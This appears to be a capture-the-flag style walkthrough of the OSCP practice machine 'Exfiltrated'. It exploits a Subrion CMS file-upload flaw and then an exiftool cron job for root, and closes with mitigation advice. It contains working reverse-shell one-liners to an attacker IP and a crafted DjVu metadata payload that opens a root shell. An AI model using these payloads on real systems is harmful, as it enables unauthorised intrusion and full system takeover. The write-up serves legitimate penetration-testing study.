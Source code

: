 ```yaml
---
title: Exfiltrated
date: 2025-05-09
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, CVE-2018-19422, .djvu, exiftool-cronjob-privesc, CVE-2021-22204 ] 
image: exfil.png
media_subpath: /assets/img/posts/2025-05-12-exfiltrated/
---
```


## Introduction

In this walkthrough, I exploited a **Subrion CMS** instance that was vulnerable to an **authenticated file upload bypass**, which allowed me to upload a malicious PHP file and achieve **remote code execution**. After gaining a foothold, I continued enumeration and discovered a **cron job running as root** that executed `exiftool` every minute.

The installed version of `exiftool` fell within a **vulnerable range affected by CVE-2021-22204**, which allows arbitrary code execution via crafted image metadata. I created a malicious image file to exploit this vulnerability and, once processed by the cron job, successfully **escalated privileges to root**.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 22

Version - OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)

We usually skip SSH.

## Web

### Port 80

Version - Apache httpd 2.4.41 ((Ubuntu))

Add domain to `/etc/hosts` file:

![image.png](image%202.png)

I saw at the bottom the Subrion CMS and used public exploit to get a shell:

![image.png](image%203.png)

[https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE/blob/main/README.md](https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE/blob/main/README.md)

```powershell
python3 SubrionRCE.py -u http://exfiltrated.offsec/panel/ -l admin -p admin
```

![image.png](image%204.png)

Let’s get a reverse shell from here.

```powershell
bash -i >& /dev/tcp/192.168.45.242/443 0>&1
bash -c 'bash -i >& /dev/tcp/192.168.45.242/443 0>&1'
#these didn't work

busybox nc 192.168.45.242 443 -e /bin/bash
```

I searched for `busybox` and find that it exists, and used it to get a reverse shell.

```powershell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Then used python to get an interactive shell.

## Privilege Escalation

- **OSCP Checklist**
    - [ ]  Situational awareness
    - [ ]  Exposed Confidential Information
    - [ ]  Password Authentication Abuse
    - [ ]  Hunting Sensitive Information
    - [ ]  Sudo
    - [ ]  SUID/SGID
    - [ ]  Capabilities
    - [ ]  Cron Jobs Abuse
    - [ ]  Kernel Exploits
    - [ ]  **Check if sudoers file is writable**
    - [ ]  Try credentials you already obtained for various services admin roles
    

While checking cron jobs we see:

```bash
cat /etc/crontab
```

![image.png](image%205.png)

```bash
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"

IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

it just takes an image from `/var/www/html/subrion/uploads` and stored its exifdata in a file with randomly generated filename.

I searched for ways of leveraging exiftool for privilege escalation and most promising thing among all is CVE-2021-22204. I checked my exiftool version and it was in vulnerable range.

![image.png](image%206.png)

Then I followed the following post [**Exiftool Privilege Escalation**](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-exiftool-privilege-escalation/) and used the following exploit:

```bash
(metadata "\c${system('busybox nc 192.168.45.242 4444 -e /bin/bash')};")
```

If someone struggles with downloading djvulibre use 

```bash
sudo apt install -y djvulibre-bin --fix-missing 
```

After that I saw that it just greps for the expression `jpg` so I changed the exploit name to `jpg.djvu` at the end and put it inside `/var/www/html/subrion/uploads`, and as the cron job is run by root user I received reverse shell as root user.

![image.png](image%207.png)

## Mitigation

- **Update Subrion CMS** to the latest version and apply any available patches for file upload validation mechanisms.
- Implement **strict file type and content validation** on file uploads, especially in authenticated areas of CMS applications.
- **Upgrade exiftool** to a version patched against **CVE-2021-22204** to prevent exploitation via crafted image metadata.
- Review and secure **cron jobs** running as root — ensure they do not process user-controlled files or input.
- Use **AppArmor/SELinux** to restrict what system utilities like `exiftool` can access or execute.
